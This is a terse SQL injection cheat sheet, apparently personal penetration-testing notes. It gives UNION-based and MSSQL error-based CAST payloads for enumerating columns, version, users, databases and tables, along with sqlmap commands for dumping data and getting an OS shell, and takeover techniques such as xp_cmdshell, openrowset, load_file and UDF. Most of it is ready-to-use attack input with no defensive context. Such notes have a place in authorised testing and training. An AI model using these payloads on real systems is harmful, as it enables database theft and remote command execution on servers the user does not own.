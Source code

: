 ## In-band
#### UNION
* `99999999 UNION SELECT NULL<, NULL,...>; -- -` - detect number of fields in query
* `99999999 UNION SELECT 1<, NULL,...>; -- -` - detect field type
* `99999999 UNION SELECT 'a'<, NULL,...>; -- -` - detect field type

## Error-based
#### CAST
* `99999999 or 1 in (Select Top 1 CAST(<fieldname> as varchar(4096)) <from <TableName> where <fieldname> not in (<list>)>)`
   * fieldname: `@@version`, `user_name()`, `db_name(0)-(99..)`
* `...CAST(name as varchar(4096)) FROM <database-name>..sysobjects where xtype='U' and name not in (<known-table-list>)`

## Blind
#### Boolean-Based
* trigger True/False statements

## Sqlmap
* `sqlmap -u <URL> --data=<POST> -p param` - POST
* `sqlmap -u <URL> -p param`
* `sqlmap -r <request-file> -p param` - take request from file
     * `--technique=<U>`
     * `--banner`
     * `--dbms` - database type
     * `--dbs` - list databases
     * `-D <database>`, `-T <tables>`, `-C <columns>` - select specific database/table/column
     * `--tables`, `--columns` - list tables, columns
     * `--dump`
     * `--string` - always present in True output
     * `--not-string` - always present in False output
     * `--prefix <value>`, `--suffix <value>`
     * `--keep-alive` - persistent connection to target
     * `--os-cmd`, `--os-shell` - takeover comamnds (cmdshell, UDF)

## Techniques
#### MSSQL
* `xp_cmdshell` - executes OS commands
* `openrowset` - access the tables of a remote server; can be used as port scanner
#### MySQL
* `load_file`
* `load data infile`
* `dumpfile`
* UDF
  

## Cheatsheets
* https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
* https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet


